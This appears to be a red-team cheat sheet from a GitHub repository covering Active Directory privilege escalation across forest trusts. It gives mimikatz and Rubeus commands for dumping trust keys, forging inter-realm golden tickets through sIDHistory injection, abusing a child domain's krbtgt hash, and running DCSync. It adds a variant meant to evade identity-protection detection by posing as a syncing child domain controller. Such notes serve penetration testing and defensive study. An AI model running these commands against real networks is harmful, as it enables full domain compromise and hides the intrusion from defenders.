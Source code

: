 ## Privilege Escalation

### Local Privilege Escalation
- Unquoted Service Paths
- Service Permissions

### Privilege Escalation in Active Directory

## Kerberos Delegations
- [Kerberos Delegations](Kerberos_Delegation.md)

## Privilege Escalation across trust relationships (Within Forest)

### Trust-key Abuse
Trust key can be extracted by any of below mimikatz command variants. By default, all trust keys within forest use RC4 encyption, so we have to use `/RC4` parameter when utilizing mimikatz to abuse trust keys.
- `lsadump::trust /patch` (In trust-key is required , marked as `Child Domain -> Parent Domain`)
- `lsadump::dcsync /user:<Child domain netbios name>\<Parent domain netbios name>$`
- `lsadump::lsa /patch`

### sIDHistory Injection
The kerberos golden module is used to abuse the sIDHistory feature. The trust-key obtained from previous step will be required to sign the ticket and is passed to the parent domain. The below mimikatz command is to forge an inter-realm TGT. Using the forged TGT, TGS can be requested for parent domain DC. 
- `kerberos::golden /domain:<FQDN of current domain> /sid:<Current domain SID> /sids:<sIDHistory of Enterprise Admin group> /rc4:<trust key> /user:<impersonate user>
/service:krbtgt /target:<parent domain> /ticket:<path/to/ticket.kirbi>`
- `Rubeus.exe asktgs /ticket:<path/to/ticket.kirbi> /service:<service/parent DC FQDN> /dc:<Parent DC FQDN> /ptt`

### Abuse of krbtgt hash of child-domain
Here we are forcefully setting Enterprise Admin's SID for current child domain. This TGT will have a SID history of Enterprise Admin's group which will allow access to forest root DC.
- `kerberos::golden /user:<impersonate user> /domain:<current domain FQDN> /sid:<current domain SID> /sids:<sIDHistory of Enterprise Admin group> /krbtgt:<current domain krbtgt hash> /ticket:<path\to\ticket.kirbi>` 

> DCSync attacks can be detected by identity protection solutions. To avoid such detections, we can do sIDHistory attacks in such a way that it looks like a child DC is syncing with parent DC. The below mimikatz command demonstrates the above comments.
`````powershell
> kerberos::golden /user:child-dc$ /domain:<child domain FQDN> /sid:<child domain SID> /groups:516 /sids:<parent domain SID-516>, S-1-5-9 /krbtgt:<child domain krbtgt hash> /ptt
> lsadump::dcsync /user:<parent domain\Administrator> /domain:<parent domain FQDN>
`````
Details of RIDs:
- `516` - Domain Controllers
- `S-1-5-9` - Enterprise Domain Controllers (to be used only when escalating to forest root)